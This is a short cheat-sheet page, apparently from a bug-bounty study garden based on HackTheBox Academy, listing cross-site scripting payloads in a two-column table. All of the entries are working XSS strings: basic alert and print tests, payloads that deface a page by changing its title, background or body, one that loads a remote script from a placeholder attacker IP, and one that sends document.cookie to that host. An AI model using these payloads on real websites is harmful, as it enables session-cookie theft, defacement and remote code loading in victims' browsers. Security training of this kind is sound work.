 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/bug-bounty-hunter/cross-site-scripting/xss-payloads/","tags":["XSS"]}
---
```



| Code | Description |
| -----  | ------------ |
| `<script>alert(window.origin)</script>` | Basic XSS Payload |
| `<plaintext>` | Basic XSS Payload |
|`<script>print()</script>`| Basic XSS Payload |
|`<img src="" onerror=alert(window.origin)>`|HTML-based XSS Payload|
|`<script>document.body.style.background = "#141d2b"</script>`| Change Background Color |
|`<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>`|Change Background Image
|`<script>document.title = 'HackTheBox Academy'</script>`|Change Website Title
|`<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`|Overwrite website's main body
|`<script>document.getElementById('urlform').remove();</script>`|Remove certain HTML element
|`<script src="http://OUR_IP/script.js"></script>`|Load remote script
|`<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`|Send Cookie details to us|
